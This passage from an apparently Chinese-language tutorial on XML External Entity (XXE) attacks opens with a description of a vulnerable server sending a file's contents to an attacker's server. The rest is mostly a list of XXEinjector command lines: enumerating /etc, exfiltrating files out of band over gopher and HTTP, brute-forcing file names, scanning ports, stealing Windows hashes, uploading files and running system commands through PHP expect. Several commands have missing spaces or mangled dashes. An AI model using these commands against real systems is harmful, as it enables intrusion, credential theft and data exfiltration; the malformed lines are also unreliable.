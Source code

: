 当访问http://localhost/index.php, 存在漏洞的服务器会读出text.txt内容，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

### XXEinjector

枚举HTTPS应用程序中的/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl
```

使用gopher（OOB方法）枚举/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
```

二次漏洞利用：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt
```

使用HTTP带外方法和netdoc协议对文件进行爆破攻击：

```
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc
```

通过直接性漏洞利用方式进行资源枚举：

```
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
```

枚举未过滤的端口：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
```

窃取Windows哈希：

```
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes
```

使用Java jar上传文件：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf
```

使用PHP expect执行系统指令：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls
```

测试XSLT注入：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt
```
